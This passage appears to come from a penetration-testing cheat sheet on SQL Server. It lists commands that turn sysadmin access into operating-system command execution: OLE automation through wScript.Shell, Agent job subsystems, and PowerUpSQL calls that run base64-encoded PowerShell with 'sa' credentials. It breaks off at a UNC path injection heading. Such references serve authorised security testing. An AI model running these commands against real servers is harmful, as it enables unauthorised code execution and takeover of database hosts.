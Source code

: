 	-- Execute command
	DECLARE @output INT
	DECLARE @ProgramToRun VARCHAR(255)
	SET @ProgramToRun = 'Run("calc.exe")'
	EXEC sp_oacreate 'wScript.Shell', @output out 
	EXEC sp_oamethod @output, @ProgramToRun 
	EXEC sp_oadestroy @output
	```

#### Sysadmin to OS Service Account - Command Execution with Agent Jobs

SQL Server Agent is a Windows service that executes scheduled tasks or jobs:

- Subsystem PowerShell
- Subsystem CmdExec 
- Subsystem VBScript 
- Subsystem Jscript

1. Execute commands: 

	```powershell
	# PowerUpSQL
	Invoke-SQLOSCmdAgentJob -Subsystem PowerShell -Username "sa" -Password "Password1" -Instance "SQLServer1" -Command "powershell -e <base64encodedscript>" -Verbose 
	```

2. List all jobs: 

	```powershell
	# PowerUpSQL
	Get-SQLAgentJob -Instance "SQLServer1" -Username "sa" Password "Pass@123" -Verbose
	```

#### Sysadmin to OS Service Account - Command Execution with external

```powershell
# PowerUpSQL
Invoke-SQLOSCmdR -Username "sa" -Password "Password1" -Instance "SQLServer1" -Command "powershell -e <base64encodedscript>" -Verbose
Invoke-SQLOSCmdPython -Username "sa" -Password "Password1" -Instance "SQLServer1" -Command "powershell -e <base64encodedscript>" -Verbose
```
Reference: 

- https://gist.github.com/james-otten/63389189ee73376268c5eb676946ada5 
- https://www.slideshare.net/nullbind/beyond-xpcmdshell-owning-the-empire-through-sql-server

### Public to OS Service Account

#### Public to OS Service Account - UNC Path Injection
